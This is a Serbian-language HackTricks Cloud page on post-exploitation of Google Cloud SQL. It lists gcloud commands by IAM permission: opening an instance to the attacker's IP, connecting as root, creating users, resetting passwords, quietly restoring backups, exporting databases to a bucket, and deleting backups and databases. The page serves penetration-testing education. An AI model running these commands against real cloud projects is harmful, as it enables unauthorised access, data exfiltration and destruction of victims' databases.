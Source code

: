 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Za više informacija o Cloud SQL, proverite:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Da biste se povezali na baze podataka, **samo vam je potreban pristup portu baze podataka** i da znate **korisničko ime** i **lozinku**, nema zahteva za IAM. Dakle, lak način da dobijete pristup, pod pretpostavkom da baza podataka ima javnu IP adresu, je da ažurirate dozvoljene mreže i **dozvolite svoju IP adresu da joj pristupi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Takođe je moguće koristiti **`--no-backup`** da **ometate rezervne kopije** baze podataka.

Pošto su ovo zahtevi, nisam potpuno siguran koje su dozvole **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Ako znate, pošaljite PR!

### `cloudsql.users.list`

Dobijte **spisak svih korisnika** baze podataka:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ova dozvola omogućava **kreiranje novog korisnika unutar** baze podataka:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ova dozvola omogućava **ažuriranje korisnika unutar** baze podataka. Na primer, možete promeniti njegovu lozinku:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backup-i mogu sadržati **stare osetljive informacije**, pa je zanimljivo proveriti ih.\
**Vrati backup** unutar baze podataka:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Da bi se to uradilo na diskretniji način, preporučuje se da se kreira nova SQL instanca i da se podaci povuku tamo umesto u trenutno aktivnim bazama podataka.

### `cloudsql.backupRuns.delete`

Ova dozvola omogućava brisanje rezervnih kopija:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Izvezite bazu podataka** u Cloud Storage Bucket kako biste mogli da joj pristupite odatle:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Uvezi bazu podataka** (prepiši) iz Cloud Storage Bucket-a:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Obriši bazu podataka iz db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
